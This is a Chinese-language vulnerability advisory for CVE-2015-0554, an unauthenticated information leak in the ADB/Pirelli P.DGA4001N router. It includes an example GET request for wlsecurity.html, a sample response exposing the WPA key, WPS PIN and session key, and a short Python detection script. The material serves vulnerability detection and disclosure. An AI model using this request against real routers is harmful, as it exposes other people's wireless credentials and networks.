

# ADB/Pirelli ADSL2/2+ Wireless Router P.DGA4001N 信息泄露漏洞（CVE-2015-0554）

## 漏洞简介
ADB（原 Pirelli Broadband Solutions）P.DGA4001N 路由器（固件 PDG_TEF_SP_4.06L.6）存在信息泄露漏洞。由于 Web 管理界面访问控制不严，远程攻击者可直接访问敏感页面，获取路由器配置信息，甚至可导致设备重启。

## 影响范围
- 受影响产品：ADB/Pirelli ADSL2/2+ Wireless Router P.DGA4001N（固件 PDG_TEF_SP_4.06L.6）
- CPE: `cpe:2.3:o:adb:p.dga4001n_firmware:pdg_tef_sp_4.06l.6:*:*:*:*:*:*:*`

## 漏洞原理
Web 界面对敏感页面（如 `wlsecurity.html`、`resetrouter.html`）未做有效认证校验，攻击者可直接访问，导致敏感信息泄露或拒绝服务。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问路由器的 `wlsecurity.html` 页面。
2. 页面返回包含 Wi-Fi 密钥、PIN、会话密钥等敏感信息。
3. 攻击者可据此获取无线网络访问权限，或进一步攻击。

## 探测原理与流程
### 请求包示例
```http
GET /wlsecurity.html HTTP/1.1
Host: target.com
```

### 响应示例
```html
HTTP/1.1 200 OK
...
var wpapskkey = "...";
var WscDevPin = "...";
var sessionkey = "...";
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中同时包含 `var wpapskkey`、`var WscDevPin`、`var sessionkey`。

### 伪代码
```python
resp = requests.get('http://target.com/wlsecurity.html')
if resp.status_code == 200 and all(x in resp.text for x in ["var wpapskkey", "var WscDevPin", "var sessionkey"]):
    print('存在信息泄露漏洞')
```

### Mermaid 流程图


## 参考链接
- [Exploit-DB 漏洞分析](https://www.exploit-db.com/exploits/35721)
- [Packet Storm Security](http://packetstormsecurity.com/files/129828/Pirelli-ADSL2-2-Wireless-Router-P.DGA4001N-Information-Disclosure.html)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2015-0554)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon) 